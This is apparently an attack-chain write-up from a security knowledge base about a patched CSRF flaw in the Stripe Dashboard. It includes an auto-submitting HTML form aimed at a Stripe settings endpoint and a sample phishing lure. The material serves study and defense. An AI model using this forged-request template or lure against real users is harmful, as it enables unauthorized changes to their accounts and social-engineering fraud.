

# CSRF in Stripe Dashboard Allowing Unauthorized Account Changes

Multi-stage attack chain demonstrating a complete attack workflow exploiting a CSRF vulnerability in the Stripe Dashboard, introduced by a code change on February 14, 2022, that disabled token validation. This allowed attackers to craft malicious websites that, when visited by a logged-in user, could submit unauthorized requests to modify limited account settings without accessing sensitive data. The vulnerability was reported on February 27, 2022, and fixed on March 3, 2022, with no known exploitation.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for hosting malicious page
- Basic HTML knowledge for crafting forms

### Target Environment

- Web platform
- Stripe Dashboard (authenticated session)
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Victim must be authenticated in Stripe Dashboard
- Attacker needs to lure victim via phishing or social engineering
- No prior network access to victim's machine required

## Detailed Attack Procedures

### Step 1: Lure and Execute CSRF
procedure: [[procedures/Exploit-CSRF-in-Stripe-Dashboard]]

**Objective**: Trick a logged-in Stripe user into visiting a malicious website that automatically submits a forged request to the Stripe Dashboard, resulting in limited unauthorized changes to the victim's account settings.

**Instructions**: Host a malicious HTML page on an attacker-controlled server that contains a form targeting vulnerable Stripe endpoints without CSRF tokens. Use social engineering (e.g., phishing email) to direct the victim to this page while they are logged into Stripe. Upon page load, the form auto-submits via JavaScript, forging a request as if initiated from the legitimate site.

Example malicious HTML (host on attacker server):

```html
<!DOCTYPE html>
<html>
<head><title>Clickbait Page</title></head>
<body>
    <h1>Interesting Article</h1>
    <p>Content to lure user...</p>
    <form id="csrf-form" action="https://dashboard.stripe.com/v1/account/settings" method="POST">
        <input type="hidden" name="limited_setting" value="malicious_value">
    </form>
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

Send phishing link to victim: "Check this urgent Stripe update: [attacker-site.com]".

**Expected Output**: The victim's browser submits the request, and if vulnerable, the Stripe Dashboard processes the change (e.g., updates a non-sensitive setting like notification preferences) without user interaction.

**Success Indicators**:
- Victim visits the malicious page while authenticated
- Account settings reflect unauthorized modification (verifiable by attacker via follow-up social engineering or if change is public)
- No alerts or blocks from Stripe (due to disabled CSRF validation)

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection to forge requests from victim's browser
2. Performed limited account modifications without credentials or sensitive data access
3. Demonstrated impact within an 18-day exposure window before patch

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T12:00:00Z*
